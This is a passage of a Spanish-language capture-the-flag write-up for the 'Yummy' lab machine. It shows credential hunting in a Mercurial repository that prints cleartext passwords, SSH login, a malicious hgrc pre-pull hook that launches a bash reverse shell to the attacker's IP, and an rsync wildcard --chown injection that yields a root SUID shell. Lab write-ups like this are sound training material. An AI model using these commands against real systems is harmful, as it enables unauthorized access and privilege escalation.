Ahora ya podemos acceder al directorio `/var/www/app-qatesting`
```console
(remote) www-data@yummy:/var/www/app-qatesting$ ls -la
total 40
drwxrwx--- 7 www-data qa        4096 May 28 14:41 .
drwxr-xr-x 3 www-data www-data  4096 Oct  7 13:34 ..
-rw-rw-r-- 1 qa       qa       10852 May 28 14:37 app.py
drwxr-xr-x 3 qa       qa        4096 May 28 14:26 config
drwxrwxr-x 6 qa       qa        4096 May 28 14:37 .hg
drwxr-xr-x 3 qa       qa        4096 May 28 14:26 middleware
drwxr-xr-x 6 qa       qa        4096 May 28 14:26 static
drwxr-xr-x 2 qa       qa        4096 May 28 14:26 templates
```

Vemos un directorio oculto llamado `.hg`, esto corresponde a un servicio de control de versiones como `Git` llamado `Mercurial`, al igual que `Git` crea un directorio `.git`, `Mercurial` crea un directorio `.hg`

Podemos ejecutar un `find .` y vemos que hay muchos archivos.

Utilizando un bucle, podemos recorrer todos estos archivos y filtrar por algunas palabras interesantes y encontramos algo muy interesante.
```console
(remote) www-data@yummy:/var/www/app-qatesting/.hg$ for file in $(find . -type f); do strings $file | grep -e "pass" -e "pwd" -e "user"; done
strings: ./wcache/checkisexec: Permission denied
9    'user': 'chef',
    'password': '3wDo7gSRZIwIHRxZ!',
6    'user': 'qa',
    'password': 'jPAd!XQCtn8Oc@2B',
?$pwd
You have new mail in /var/mail/www-data
```

La credencial de `chef` no es válida.
```console
$ sshpass -p '3wDo7gSRZIwIHRxZ!' ssh chef@yummy.htb
Permission denied, please try again.
```

Pero la credencial de `qa` si que lo es.
```console
$ sshpass -p 'jPAd!XQCtn8Oc@2B' ssh qa@yummy.htb
Welcome to Ubuntu 24.04.1 LTS (GNU/Linux 6.8.0-31-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Mon Oct  7 01:37:55 PM UTC 2024

  System load:  0.16              Processes:             266
  Usage of /:   62.1% of 5.56GB   Users logged in:       0
  Memory usage: 21%               IPv4 address for eth0: 10.129.29.218
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

10 updates can be applied immediately.
10 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Mon Oct  7 13:37:56 2024 from 10.10.16.9
qa@yummy:~$ 
```

Y podemos leer la flag de usuario.
```console
qa@yummy:~$ cat user.txt 
6d26bb0e677eed...
```

# Abusing `hgrc` hooks -> User Pivoting 3
Vemos que `qa` puede ejecutar como el usuario `dev` el comando `/usr/bin/hg pull /home/dev/app-production`
```console
qa@yummy:~$ sudo -l
[sudo] password for qa: 
çMatching Defaults entries for qa on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User qa may run the following commands on localhost:
    (dev : dev) /usr/bin/hg pull /home/dev/app-production/
```

En el directorio personal de `qa` me encuentro el archivo de configuración `.hgrc`
```console
qa@yummy:~$ cat .hgrc 
# example user config (see 'hg help config' for more info)
[ui]
# name and email, e.g.
# username = Jane Doe <jdoe@example.com>
username = qa

# We recommend enabling tweakdefaults to get slight improvements to
# the UI over time. Make sure to set HGPLAIN in the environment when
# writing scripts!
# tweakdefaults = True

# uncomment to disable color in command output
# (see 'hg help color' for details)
# color = never

# uncomment to disable command output pagination
# (see 'hg help pager' for details)
# paginate = never

[extensions]
# uncomment the lines below to enable some popular extensions
# (see 'hg help extensions' for more info)
#
# histedit =
# rebase =
# uncommit =
[trusted]
users = qa, dev
groups = qa, dev
```

[Leyendo la documentación](https://www.mercurial-scm.org/doc/hgrc.5.html#files) encontramos lo siguiente:

> pre-COMMAND
> Run before executing the associated command. The contents of the command line are passed as $HG_ARGS. Parsed command line arguments are passed as $HG_PATS and $HG_OPTS. These contain string representations of the data internally passed to <command>. $HG_OPTS is a dictionary of options (with unspecified options set to their defaults). $HG_PATS is a list of arguments. If the hook returns failure, the command doesn't execute and Mercurial returns the failure code.


- **pre-COMMAND**: Este es un tipo de hook que se ejecuta **antes** de que se ejecute un comando específico en Mercurial.
    
- **Run before executing the associated command**: Indica que este hook se activa justo antes de que el comando asociado se ejecute.
    
- **$HG_ARGS**: Contiene los argumentos de la línea de comandos que se pasan al hook. Es una representación en forma de cadena de todos los argumentos que el usuario ha proporcionado al ejecutar el comando.
    
- **$HG_PATS**: Es una lista de argumentos que se han pasado al comando, después de ser analizados. Esto permite al hook saber qué argumentos específicos se han usado.
    
- **$HG_OPTS**: Es un diccionario que contiene las opciones que se han pasado al comando. Si algunas opciones no se especifican, se establecen en sus valores predeterminados.
    
- **Failure Code**: Si el hook devuelve un error (failure), el comando no se ejecuta y Mercurial devuelve un código de error. Esto permite a los usuarios o scripts evitar que se realicen acciones no deseadas si se cumplen ciertas condiciones.

Por lo cual podemos crear un hook `pre-pull` por ejemplo, que se ejecutará antes de hacer un pull, y como esto se ejecutará como `dev` podríamos migrar a este usuario.

Vamos a crear el directorio `/tmp/.hg` y vamos a copiarnos el `.hgrc` del usuario `qa` dentro de este directorio.

```console
qa@yummy:/tmp$ mkdir .hg
qa@yummy:/tmp$ cd .hg/
qa@yummy:/tmp/.hg$ ls
qa@yummy:/tmp/.hg$ cp /home/qa/.hgrc .
```

Ahora vamos a modificar el `.hgrc` para agregar al hook abajo del todo y ejecutar el script `/tmp/pivot.sh`


Revisando la documentación, el archivo de configuración debe llamarse `hgrc` y no `.hgrc`
```console
qa@yummy:/tmp/.hg$ mv .hgrc hgrc
qa@yummy:/tmp/.hg$ nano hgrc 
```

Ahora creamos `/tmp/pivot.sh` para mandarnos una revshell.
```console
qa@yummy:/tmp$ cat pivot.sh 
#!/bin/bash

bash -c "bash -i >& /dev/tcp/10.10.16.9/443 0>&1"
```

Nos ponemos en escucha con `pwncat-cs` por el puerto 443.
```console
$ sudo pwncat-cs -lp 443
```

Ahora, si todo ha salido bien, ejecutamos como `dev` el comando que se nos permite.
```console
qa@yummy:/tmp$ sudo -u dev /usr/bin/hg pull /home/dev/app-production/
```

Y ganamos acceso como el usuario `dev`
```console
$ sudo pwncat-cs -lp 443
/usr/local/lib/python3.11/dist-packages/paramiko/transport.py:178: CryptographyDeprecationWarning: Blowfish has been deprecated and will be removed in a future release
  'class': algorithms.Blowfish,
[15:57:01] Welcome to pwncat 🐈!                                                                                                               __main__.py:164
[15:57:19] received connection from 10.129.29.218:53060                                                                                             bind.py:84
[15:57:21] 10.129.29.218:53060: registered new host w/ db                                                                                       manager.py:957
(local) pwncat$                                                                                                                                               

(remote) dev@yummy:/tmp$ id
uid=1000(dev) gid=1000(dev) groups=1000(dev)
```

# Privilege Escalation
Rápidamente nos damos cuenta de que `dev` puede ejecutar un comando como `root`
```console
(remote) dev@yummy:/tmp$ sudo -l
Matching Defaults entries for dev on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User dev may run the following commands on localhost:
    (root : root) NOPASSWD: /usr/bin/rsync -a --exclude\=.hg /home/dev/app-production/* /opt/app/
```

Podemos ejecutar sin contraseña el comando `/usr/bin/rsync -a --exclude\=.hg /home/dev/app-production/* /opt/app/` como `root`

En resumen este comando copia todo lo que haya en `/home/dev/app-production/*` a `/opt/app`

Esa **wildcard** cuidado, consultando [GTFOBins](https://gtfobins.github.io/gtfobins/rsync/#sudo) encontramos lo siguiente.
Podemos escalar privilegios utilizando el parámetro `-e`  pero no nos sirve para nada ya que corresponde a `--rsh`.
```
sudo rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
```

Eso era algo informativo.

Pero podemos aprovecharnos de esa wildcard para agregar otro parámetro, revisando el manual de `rsync` vemos un parámetro `--chown`, esto sirve para al hacer el `rsync`, establecer un usuario y un grupo a los archivos, y como este comando lo podemos ejecutar como `root`, teóricamente podríamos crear un archivo nuevo, hacer el `rsync` agregando la flag `--chown=root:root` y los archivos nuevos se crearían como `root`



Vamos a copiarnos la `/bin/bash` como `pointedshell` en `/home/dev/app-production` y establecer el bit SUID a 1.
```console
(remote) dev@yummy:/home/dev/app-production$ cp /bin/bash pointedshell
(remote) dev@yummy:/home/dev/app-production$ chmod u+s pointedshell 
(remote) dev@yummy:/home/dev/app-production$ ls -la
total 1456
drwxr-xr-x 7 dev dev    4096 Oct  7 14:16 .
drwxr-x--- 7 dev dev    4096 Oct  7 14:16 ..
drwxrwxr-x 5 dev dev    4096 May 28 14:25 .hg
-rw-rw-r-- 1 dev dev   10037 May 28 20:19 app.py
drwxr-xr-x 3 dev dev    4096 May 28 13:59 config
drwxr-xr-x 3 dev dev    4096 May 28 13:59 middleware
-rwsr-xr-x 1 dev dev 1446024 Oct  7 14:16 pointedshell
drwxr-xr-x 6 dev dev    4096 May 28 13:59 static
drwxr-xr-x 2 dev dev    4096 May 28 14:13 templates
```

Ahora si se conservasen esos permisos pero cambiase el propietario a `root` podríamos lanzarnos una bash como `root`

Ahora si nos vamos al directorio anterior (no debe de estar en uso), y ejecutamos nuestro comando añadiendo el parámetro `--chown` que es perfectamente válido debido al uso de la wildcard (\*)
```console
(remote) dev@yummy:/home/dev/app-production$ cd ..
(remote) dev@yummy:/home/dev$ sudo /usr/bin/rsync -a --exclude\=.hg /home/dev/app-production/* --chown=root:root /opt/app/
```

En principio se deberían de hacer sincronizado los archivos en `/opt/app/` pero cambiando el propietario a `root`, lo podemos comprobar.
```console
(remote) dev@yummy:/home/dev$ ls -la /opt/app/
total 1456
drwxrwxr-x 7 root     www-data    4096 Oct  7 14:18 .
drwxr-xr-x 3 root     root        4096 Sep 30 08:16 ..
drwxrwxr-x 2 www-data www-data    4096 Sep 30 08:16 __pycache__
-rw-rw-r-- 1 root     root       10037 May 28 20:19 app.py
drwxr-xr-x 3 root     root        4096 May 28 13:59 config
drwxr-xr-x 3 root     root        4096 May 28 13:59 middleware
-rwsr-xr-x 1 root     root     1446024 Oct  7 14:18 pointedshell
drwxr-xr-x 6 root     root        4096 May 28 13:59 static
drwxr-xr-x 2 root     root        4096 May 28 14:13 templates
```

Y vemos que `pointedshell` tiene el bit de SUID a 1 y su propietario es `root`

Este proceso hay que hacerlo rápido ya que hay un script por detrás que va borrando los archivos, pero si lo hacemos rápido y nos lanzamos nuestra `pointedshell` con el parámetro `-p`, ganamos una consola privilegiada.
```console
(remote) dev@yummy:/home/dev$ /opt/app/pointedshell -p
(remote) root@yummy:/home/dev# id
uid=1000(dev) gid=1000(dev) euid=0(root) groups=1000(dev)
```

Podríamos leer la flag de `root`
```console
(remote) root@yummy:/root# cat root.txt 
06b2d1a140c6cdbf1...
```

¡Y ya estaría!

Happy Hacking! 🚀